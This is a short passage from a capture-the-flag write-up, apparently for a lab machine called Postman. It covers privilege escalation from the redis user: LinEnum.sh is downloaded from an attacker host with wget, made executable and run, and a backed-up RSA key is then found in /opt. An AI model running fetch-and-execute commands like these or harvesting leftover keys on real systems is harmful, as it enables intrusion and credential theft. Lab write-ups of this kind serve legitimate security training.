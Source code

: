 ![/images/Postman/login-user.png](/images/Postman/login-user.png)

![/images/Postman/Matt.png](/images/Postman/Matt.png)

there is another user on the box called **Matt**

### Elevate privileges

1- **From redis to Matt**

Since we don't have a password for the **redis** user, we go to enumeration. 

Uploaded [LinEnum.sh](http://linenum.sh) to the box.

    redis@Postman>> cd /tmp
    redis@Postman>> wget http://10.10.14.5:8000/LinEnum.sh
    redis@Postman>> chmod +x LinEnum.sh  #to make the script executable
    redis@Postman>> ./LinEnum.sh
    

From the output we see that there is a backup of **RSA** key left at /**opt**/ folder

![/images/Postman/id_rsa.bak.png](/images/Postman/id_rsa.bak.png)
